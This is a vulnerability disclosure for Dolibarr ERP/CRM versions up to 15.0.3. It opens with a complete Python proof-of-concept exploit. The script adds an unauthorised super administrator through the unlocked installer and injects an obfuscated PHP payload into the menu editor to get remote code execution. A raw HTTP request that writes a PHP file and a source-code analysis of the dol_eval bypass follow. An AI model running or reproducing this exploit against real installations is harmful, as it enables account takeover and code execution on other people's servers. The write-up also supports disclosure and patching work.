## 2022/10/08 update

POC:

```python
import requests
from requests.packages import urllib3
import time
import random
import sys
import re


sess = requests.Session()
pcre = re.compile(r'name=\"token\"\s+value=\"([^>]+)\"\s*[/]*>')
def request(method, url, headers=None, data=None, proxies=None, timeout=30):
    i = 1
    urllib3.disable_warnings()
    resp = None
    proxies = proxies
    while i <= 3:
        try:
            resp = sess.request(method=method, url=url, headers=headers,
                                    data=data, proxies=proxies, timeout=timeout, verify=False)
            break
        except requests.exceptions.TooManyRedirects:
            break
        except requests.exceptions.ConnectionError as e:
            time.sleep(2 + random.randint(1, 4))
        except (requests.exceptions.ConnectTimeout, requests.exceptions.ReadTimeout, requests.exceptions.Timeout):
            time.sleep(2 + random.randint(1, 4))
        finally:
            i += 1
    if i > 3:
        print('[-]Error retrieve with max retries: {}'.format(url))
    return resp

def exp():
    if len(sys.argv) < 2:
        sys.exit('Usage: python3 {} http://xxxxx.com/'.format(sys.argv[0]))
    if sys.argv[1][-1] == '/':
        base = sys.argv[1].rsplit('/', 1)[0]
    else:
        base = sys.argv[1]
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36',
    }
    #proxies = {'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
    proxies = None
    res = request('GET', base, headers=headers, proxies=proxies)
    err_flag = 1
    if res:
        print('[*] Attempt to add admin.')
        base = res.url.rsplit('/', 1)[0]
        add_admin_url = '{}/install/step5.php'.format(base)
        data = {
            'action': 'set',
            'login': 'testadmins',
            'pass': 'testadmins',
            'pass_verif': 'testadmins',
            'selectlang': 'auto'
        }
        headers['Content-Type'] = 'application/x-www-form-urlencoded'
        res = request('POST', add_admin_url, headers=headers, data=data, proxies=proxies)
        if res and 'created successfully' in res.text or ('exists' in res.text and 'Email  already exists' not in res.text):
            csrf_token_url = '{}/index.php'.format(base)
            res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
            if res:
                print('[*] Attempt to login.')
                try:
                    csrf_token = pcre.findall(res.text)[0]
                except:
                    csrf_token = ''
                login_url = '{}/index.php?mainmenu=home'.format(base)
                headers['Referer'] = csrf_token_url
                data = {
                    'token':'{}'.format(csrf_token),
                    'actionlogin': 'login',
                    'loginfunction': 'loginfunction',
                    'username': 'testadmins',
                    'password': 'testadmins'
                }
                res = request('POST', login_url, headers=headers, data=data, proxies=proxies)
                if res and res.status_code == 200 and 'logout.php' in res.text:
                    print('[*] Attempt to get csrf token.')
                    csrf_token_url = '{}/admin/menus/edit.php?menuId=0&action=create&menu_handler=eldy_menu'.format(base)
                    res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
                    if res:
                        print('[*] Attemp to inset evil data.')
                        try:
                            csrf_token = pcre.findall(res.text)[0]
                        except:
                            csrf_token = ''
                        inset_evil_url = '{}/admin/menus/edit.php'.format(base)
                        data = {
                            'token': '{}'.format(csrf_token),
                            'action': 'add',
                            'menuId': random.randint(10000, 99999),
                            'menu_handler': 'eldy_menu',
                            'user': 2,
                            'type': 1,
                            'titre': 1,
                            'url': 1,
                            'enabled': "1==1));$d=base64_decode('ZWNobyAnPCEtLScmJmVjaG8gcHduZWQhISEmJmlkJiZlY2hvJy0tPic=');$a=base64_decode('c3lzdGVt');$a($d);//" #execute id command，bypass core/lib/function.lib.php limits
                        }
                        res = request('POST', inset_evil_url, headers=headers, data=data, proxies=proxies)
                        if res and res.history[0].status_code == 302:
                            print('[*] Attemp to execute command.')
                            request('GET', '{}/admin/menus/index.php'.format(base), headers=headers, proxies=proxies)
                            time.sleep(3)
                            evil_url = '{}/admin/index.php'.format(base)
                            res = request('GET', evil_url, headers=headers, proxies=proxies)
                            if res and res.status_code == 200 and 'pwned!!!' in res.text:
                                print(res.text[:100])
                                print('[+] vulnrable! {}'.format(base))
                                err_flag = 0
                    
    if err_flag:
        print('[-] {} is not exploitable.'.format(sys.argv[1]))

exp()
```



## 1. Introduction

Dolibarr ERP & CRM is a modern software package that  helps manage your organization's activity (contacts, suppliers,  invoices, orders, stocks, agenda…).

It's an Open Source Software suite (written in PHP with  optional JavaScript enhancements) designed for small, medium or large  companies, foundations and freelancers.

dolibarr<=15.0.3 has an arbitrary add administrator vulnerability and a backend remote code execution vulnerability.


## 2. Vulnerability

### 2.1 add super administrators without authorization

Dolibarr does not automatically add `install.lock` after installation, it needs to be added manually by the user in the `documents` directory. For this feature, you can add as many super administrators as you want, using the section for adding super administrators during installation: `install/step4.php`.





### 2.2 Backend RCE

Firstly, use the edit function of menus to add malicious data to the database, here we use `file_put_contents` to write files.

```
POST /dolibarr1502/htdocs/admin/menus/edit.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 299
Origin: http://localhost
Connection: close
Referer: http://localhost/dolibarr/htdocs/admin/menus/edit.php?menuId=0&action=create&menu_handler=eldy&backtopage=%2Fdolibarr%2Fhtdocs%2Fadmin%2Fmenus%2Findex.php
Cookie: PHPSESSID=mtkbsit3sr99f9relns8b9isbf; DOLINSTALLNOPING_017fb6a80b4fcc706353a7f3b168d939=1; DOLSESSID_90637d005b446cd27f1f5444eb5ac092=2m4fegod13gk193u8g7js4nql5
Upgrade-Insecure-Requests: 1

token=5de221f6658ef66579740ae1636d24a6&action=add&menuId=12345671&menu_handler=eldy_menu&user=2&type=1&titre=1&url=1&enabled=1%3D%3D1%29%29%3B%24a%3Dbase64_decode%28%27ZmlsZV9wdXRfY29udGVudHM%3D%27%29%3B%24a%28%27.1234.php%27%2Cbase64_decode%28%27PD9waHAgcGhwaW5mbygpOz8%2BCg%3D%3D%27%29%29%3B%2F%2F
```



View the database table `llx_menu` and successfully add malicious data:



Secondly, access to `http://localhost/dolibarr1502/htdocs/admin/menus/index.php`, will generate malicious PHP files in the `admin/menus/` directory.




## 3. Analysis

The `dol_eval` function in `htdocs/core/lib/functions.lib.php` can execute arbitrary code, the dol_eval caller also in the `verifCond` function in this file. If you can control `$s` and bypass the forbidden restriction (bypass with php features: **variable functions**), you can execute arbitrary code.





Looking for controllable calls to the `verifCond` function, I found the `menuLoad` method in `htdocs/core/class/menubase.class.php`. The `menuLoad` method has two calls to `verifCond`.



But `$memu` is fetched from the database, so go ahead and look at the logic of the `$resql` statement. Focus on the table: `MAIN_DB_PREFIX.menu`, and `m.entity` in `(0, $conf->entity)`, `m.menu_handler IN ($this->db->escape($menu_handler),'all')"`. And `$menu_handler` is the parameter passed in. The condition to be satisfied is: `eldy`


```php
$sql = "SELECT m.rowid, m.type, m.module, m.fk_menu, m.fk_mainmenu, m.fk_leftmenu, m.url, m.titre, m.langs, m.perms, m.enabled, m.target, m.mainmenu, m.leftmenu, m.position";
$sql .= " FROM ".MAIN_DB_PREFIX."menu as m";
$sql .= " WHERE m.entity IN (0,".$conf->entity.")";
$sql .= " AND m.menu_handler IN ('".$this->db->escape($menu_handler)."','all')";
if ($type_user == 0) $sql .= " AND m.usertype IN (0,2)";
if ($type_user == 1) $sql .= " AND m.usertype IN (1,2)";
$sql .= " ORDER BY m.position, m.rowid";
```

So, we need to find the code to insert or modify the table `MAIN_DB_PREFIX.menu`.



The `create` function, also located in `htdocs/core/class/menubase.class.php`, is used to add a piece of data to `MAIN_DB_PREFIX.menu`, focusing on `perms`, `enabled`, `entity`, and `menu_handler`. handler`, where `entity` is `$conf->entity` which just meets the conditions described above.



Keep track of the remaining three variables, located in `htdocs/admin/menus/edit.php`, all of which we can control.



